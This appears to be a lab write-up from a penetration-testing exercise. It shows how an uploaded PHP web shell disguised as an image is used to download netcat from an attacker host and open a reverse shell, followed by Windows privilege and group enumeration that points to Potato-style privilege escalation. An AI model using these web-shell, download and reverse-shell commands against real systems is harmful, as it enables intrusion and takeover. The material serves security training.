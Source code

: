 ## Uploading nc

http://10.200.114.100/resources/uploads/shell-n00bmast3r.jpg.php?wreath=curl%20http://10.50.115.25:8000/nc.exe%20-o%20c:\\windows\\temp\\nc-n00bmast3r.exe

## Gaining reverse shell

http://10.200.114.100/resources/uploads/shell-n00bmast3r.jpg.php?wreath=powershell.exe%20C:\\Windows\\Temp\\nc-n00bmast3r.exe%2010.50.115.25%20443%20-e%20cmd.exe

# Enumeration - Target 3

whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled  => PrintSpoofer and Potato series of privilege escalation exploits
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288 
